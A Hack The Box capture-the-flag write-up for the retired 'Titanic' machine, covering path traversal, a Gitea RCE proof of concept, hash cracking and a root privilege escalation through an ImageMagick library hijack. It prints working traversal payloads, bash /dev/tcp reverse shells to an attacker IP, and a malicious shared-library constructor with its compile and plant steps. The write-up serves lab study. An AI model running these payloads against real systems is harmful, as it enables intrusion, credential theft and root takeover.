### Info:
- Name: **Titanic**
- OS: **Linux**
- Type: **Unauthenticated**
- Difficulty: **Easy**
- Status: **Retired**

### Content:
- [**`testing.md`**](https://github.com/cac3r/htb_machines/blob/main/titanic/testing.md)                - Raw notes / working log
- [**`report.pdf`**](https://github.com/cac3r/htb_machines/blob/main/titanic/report.pdf)                - Professional report
- [**`attack_chain.png`**](https://github.com/cac3r/htb_machines/blob/main/titanic/attack_chain.png)   - Attack chain diagram
- `screenshots/`           - Supporting screenshots

---
---
### Brief:
### + surface -> `dev.` subdomain: Path traversal -> LFI in `/download`
Starting the test against the target system `titanic` unauthenticated. After network/host reconnaissance, enumerating the exposed website at port 80 (with domain `titanic.htb`) find file downloading function after submitting a form at `/book` (clicking "Book Now"). This endpoint and parameter `/download?ticket=` is found to be vulnerable to path traversal, reaching system paths, and abusing by including local files (LFI) like `/etc/passwd` (discovering `/home/developer`), read the user flag (`/home/developer/user.txt`) and then `/etc/hosts`. This last file disclosed a new subdomain `dev.titanic.htb`. 
### Initial access -> `git` account: CVE-2026-60004 - RCE via vulnerable Gitea version 1.22.1
After adding the subdomain to attacker system `/etc/hosts` for DNS resolution, browse it and discover is used for Gitea. At the button of the page can fingerprint the Gitea version 1.22.1. Searching this version surfaces different CVEs, one highlighted affecting this version (CVE-2026-60004) enables arbitrary command execution by abusing Git hooks. A public PoC automates it with a python script, creating a user, then a repo, and exploiting this repo by writing the malicious hook in `/hooks`, achieving RCE as `git` and, after running a reverse shell, a shell as `git`.
### Pivot -> `developer` account: Gitea configuration > SQLite database > Hashes > Password reuse
Navigating the system as `git` find the `gitea` binary under `/app`. Executing this binary prints different file paths including the path for Gitea configuration file. Reading this configurtation file, discloses the path for the database, in this case SQLite. Without required authentication, can enumerate and dump database contents, retrieving hashes for `administrator` and `developer`. Besides, identify the salt for each entry by querying the `salt` column, forming the complete hash (`salt:hash`). Passing this formed hashes to `gitea2hashcat.py` tool can convert this hashes to a  crackable format. Running hashcat with mode 10900, the `developer` hash cracked recovering the plaintext password `25282528`. The password is validated against the same identity `developer` but on OS level account, and the password turns out reused, and valid to authenticate via SSH to the target system.
### Privilege escalation -> `root`: Library hijack in script running vulnerable ImageMagick 7.1.1-35
Remotedly connected as `developer` to the target system via SSH, navigate `/opt/scripts` and find `identify_images.sh`, a shell script that is owned by root. This script (A.) uses ImageMagick to identify data/metadata from images within the web source `/opt/app/static/assets/images/`, (B.) is identified to run cronologically/periodically by comparing the output file the script produces (`metadata.log`) creation time against current system time. (C.) The ImageMagick version is 7.1.1-35, affected by a known exploit for versions equal or lower than 7.1.1-35. This presents a Library hijack vulnerablity that is exploited by creating a malicious library, writen to `/opt/app/static/assets/images/`. When the program runs, it loads the planted library and executes the code inside it. The code is set to include a reverse shell. Since the script is owned and ran by root, the reverse shell returns a shell as root, enabling to read the final flag `root.txt`.

---
---
### Techniques
- Path traversal + LFI in file download functionality -> Read `/etc/hosts` -> Subdomain
- Gitea 1.17 – 1.27.0 RCE vulnerability (CVE-2026-60004)
- Enumerating Gitea files (binary, config, database path)
- Dumping SQLite database
- Forming crackable hashes from raw Gitea database hashes and salts
- Exploiting script that runs vulnerable ImageMagick <=7.1.1-35
	- Finding scripts
	- Identifying scheduled/cron execution
	- Specific exploit for ImageMagick - Library hijacking

---
---
### Lesson
Lesson #1: Check system scripts (example location: `/opt/scripts`).
Lesson #2: Scheduled/croned scripts can be identified by comparing a file the script creates to log information (classic log file) and the system current time. If both meet near coincidence can mean the script is scheduled/croned to run periodically. With pspy and enumerating cron configuration can identify them as well.
Croned scripts executed by root are interesting as a low privilege without sudo privileges. If the script is vulnerable / presents a code flaw that permits RCE can be a potential path to escalate privileges locally. 

---
### Path traversal + LFI in file download functionality -> Read `/etc/hosts` -> Subdomain

Website. Download function. Parameter to specify file to download (purposedly within web server). The downloaded file and the response contains the specified file contents. Path traversal to reach system paths and files. LFI, using this traversal to include files like `/etc/passwd`, `/etc/apache2/*`, `/etc/hosts` and reading contents in the response (or downloaded file). This last one containing DNS configuration disclosed a new subdomain.

Example in this test:

The ticket is created at POST `/book` and then redirect to `/download?ticket=<x>.json` to download it.



Parameter loading locally stored files, printing contents on response. Trying file inclusion. With path traversal can read `/etc/passwd`

```
../../../../../etc/passwd
```



Reading `/etc/hosts`

```
../../../../../etc/hosts
```



---
### Gitea 1.17 – 1.27.0 RCE vulnerability

Discovered a subdomain used for Gitea (to store/self-host and manage private code). At the button of the page can see the version, and searching this verson surfaces CVEs. The highlighted one is for RCE ([CVE-2026-60004](https://github.com/imbas007/CVE-2026-60004-POC)). "This abuses how Gitea's `diffpatch` API endpoint processes user-supplied Git patches". The script creates an account, then a repository, and delivers the exploit/hook with specified command to execute, printing the output. Used this RCE to run a reverse shell.

```
python3 cve-2026-60004-poc.py --url http://dev.titanic.htb --cmd "id"
```



1. Register user
2. Create repo
3. Exploit with the malicious diffpatch
4. Retrieve command output

```
python3 cve-2026-60004-poc.py --url http://dev.titanic.htb --cmd "bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1'"
```



---
### Enumerating Gitea files (binary, conf/, database)

After RCE and gaining a shell as the account running Gitea (`git`) navigate the system and find a `gitea` binary. Executing it list valuable information like configuration files paths. Listing `/data/gitea/conf/app.ini` config file contents read database configuration. Type, host, user, and the path to database it self. In this case the database is SQLite so can read the contents directly from the file and query without credentials. (Next block)

Example in this test:

Moving arround the system, inside `/app` see `gitea` file but lisiting prints unreadable content.
Its a binary

```
./gitea
```

Executing it see interesting files



```
cat /data/gitea/conf/app.ini
```



SQLite
Path: `/data/gitea/gitea.db`. 
...

---
### Dumping SQLite database

Find the database file. Read its contents and query with `sqlite3` binary

Example in this test:

```
cat /data/gitea/gitea.db
```



See commits from `developer` but cant read with ease, and file is large

Querying with sqlite3. Assuming table name is common user / users.

```
sqlite3 /data/gitea/gitea.db
```

```
SELECT * FROM user;
```



Hashes for `administrator` and `developer`...

---
### Forming crackable hashes from raw Gitea database hashes and salts

After dumping the database user table, have different encoded strings and algorithm. The large one can be identified as the password hash. Querying the salt column can identify the salt. Forming a hash with this 2 strings (`salt:hash`, or viceversa) can pass it to a tool ([gitea2hashcat](https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py)) that converts it to a crackable format for hashcat. Cracking with mode 10900 (PBKDF2-HMAC-SHA256).
*The tool also have an option to read database directly*.

Example in this test:

administrator password hash: `<HASH1>`
developer password hash: `<HASH2>`
Algorithm: `pbkdf2$50000$50`

https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py

```
./gitea2hashcat.py -h
```



Identify the salt from `user` table,  `salt` column

```
select salt from user;
```



administrator salt: `<SALT1>`
developer salt: `<SALT2>`

**`salt:hash`**
admin: `<SALT1>:<HASH1>`
developer: `<SALT2>:<HASH2>`

```
./gitea2hashcat.py <SALT1>:<HASH1> <SALT2>:<HASH2>
```


`sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`
`sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Cracking with mode 10900 and rockyou.txt

```
hashcat -m 10900 <hashes> rockyou.txt
```



---
### Exploiting scheduled script that runs vulnerable ImageMagick <=7.1.1-35

*The script is known to be schedule due the coincidence of current/recent time and the scripts output log file time of creation. (`ls -la` creation time and `date` system time)*

The code of this script living under `/opt/scripts` is analyzed and found running a tool version that is vulnerable to a known code execution exploitation ([Arbitrary Code Execution](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)). In this case ImageMagick with version 7.1.1-35.

Example in this test:



First. Create the XML file. Inside any writable dir (`/dev/shm`)

```
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

Create the C file and edit the command to reverse shell (`system()`).

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i &> /dev/tcp/10.10.14.204/9001 0>&1'");
    exit(0);
}
```

Compile it

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 shell.c
```

Rename the xml to match what the script is specting (jpg)

```
mv delegates.xml delegates.jpg
```

Set listener

```
-nc -nlvp 9001
```

Move the created library `libxcb.so.1` to `/opt/app/static/assets/images/` (path used in the vulnerable script)

```
cp libxcb.so.1 /opt/app/static/assets/images/
```

Wait for the scheduled script to execute




---
---

#### Questions:
(Resolved with Claude Opus 4.8)
##### Is that common/expected Gitea binary, config paths?

Common config locations: `/data/gitea/conf/app.ini` (Docker/containerized, which this is), `/etc/gitea/app.ini`, or `<custom>/conf/app.ini`. The binary's `ConfigFile` output points you to the exact one. So `app.ini` is _the_ file to read on any Gitea box — deterministic.

**The `[database]` section revealing DB type/location — standard and high-value.** `app.ini` always contains a `[database]` block with the connection details.

---
##### Where to search for scripts besides `/opt/scripts`?

- `/opt/`, `/opt/scripts/`, `/usr/local/bin/`, `/usr/local/sbin/` — custom admin scripts commonly live here.
- `/root/` (if readable), user home dirs, `/home/*/`.
- `/etc/cron*` (see below).
- Anywhere a config or service references — follow the trail.

**How to find them systematically:**

```
find / -name "*.sh" 2>/dev/null
```

writable files (exploitable)

```
find / -writable -type f 2>/dev/null
```

scripts by extension

```
find / -name "*.py" -o -name "*.sh" 2>/dev/null
```


```
ls -la /opt /usr/local/bin /usr/local/sbin
```

---
##### How to identify scheduled/cron scripts

_Method 1 — read cron config directly:_

```
cat /etc/crontab                     # system-wide cron

ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/

cat /etc/cron.d/*

crontab -l                           # current user's crontab

cat /var/spool/cron/crontabs/*       # per-user crontabs (often root-only readable)

systemctl list-timers                # systemd timers (the modern cron)
```

**Crucially:** `/etc/crontab` and `/etc/cron.d/` entries **show you the user the job runs as** — the format is `minute hour day month weekday USER command`. So if you can read them, you _directly see_ whether it's root. That answers your "how to know if it runs as root" question — _when the cron config is readable._

_Method 2 — the timing-inference method you used (when cron config ISN'T readable):_  

This is the **inference method** for when you _can't_ read cron directly (per-user crontabs are often root-only). You watch for files that change on a regular interval → something is running on a schedule. This is a legitimate and common technique precisely because `/var/spool/cron/crontabs/root` is usually unreadable to you.

_Method 3 — process monitoring (catch it running):_  

The best tool here is **pspy** — a tool that monitors process execution _without root_, so you literally _see_ cron jobs and scheduled scripts fire in real time, including their full command line and the UID running them. This is the go-to on the exam:

```bash
./pspy64      # watch processes; scheduled jobs appear when they run
```

pspy would have shown you the `identify_images.sh` script running, _as which user_, on what interval — answering all your questions at once. **If you take one thing from this: pspy is the standard way to discover scheduled scripts and see what UID runs them when you can't read cron config.**

---
##### What category the ImageMagick exploit fits on?

Library hijacking / shared library injection

The general class — "get a program to load _your_ malicious library instead of / in addition to the legitimate one, so your code runs in that program's context" — is called:

- **Library hijacking** (most common general term)
- **Shared library injection**
- **Shared object (.so) injection** (Linux-specific, since Linux libraries are `.so` files)

That's the family. If you searched any of those, you'd find the technique class. This is the umbrella your Titanic privesc falls under.

This machine example:

For "Titanic" machine example is best described as: **library hijacking via a writable library search path**, enabled by the specific ImageMagick CVE that caused `magick` to load `libxcb.so.1` from its (attacker-writable) working directory. So:

- **Class:** library hijacking / shared object injection.
- **Mechanism:** the vulnerable ImageMagick version searched for/loaded a library from a directory you could write to.
- **Payload technique:** the `.so` **constructor** (`__attribute__((constructor))` / `_init`) that auto-runs on load.
- **Delivery:** a **scheduled (cron) root task** ran the vulnerable tool, so your library loaded as root.

root runs vulnerable ImageMagick in a directory you can write to, so you plant a malicious `libxcb.so.1` whose **constructor function auto-runs your reverse shell as root** the moment magick loads it — a library-hijack + constructor-execution combo.

---
###### Additional point
This machine was released on 15th February, 2025 (https://app.hackthebox.com/machines/Titanic?sort_by=created_at&sort_type=desc). The CVE used to exploit Gitea 1.22.1 (CVE-2026-60004) was discovered after the machine released, apparently around August 25, 2026. This CVE exploitation is not part of the intended path. I assume the intended path was to research known configuration paths for Gitea and include this files with the path traversal + LFI point discovered, reading the `app.ini` and `gitea.db` file and querying the db locally, continuing to crack the hashes and pivot to `developer` system account.

---
#### Takeaway
- Looking for system scripts (example `/opt/scripts/`)
- Identifying scheduled/cron scripts
- Gitea:
	- Gitea recent CVE-2026-60004. 
	- Gitea configuration files.
	- Gitea hashes and conversion to crack
- Identifying shell within Docker container context
- ImageMagick <=7.1.1-35 exploit. New category Library hijack.
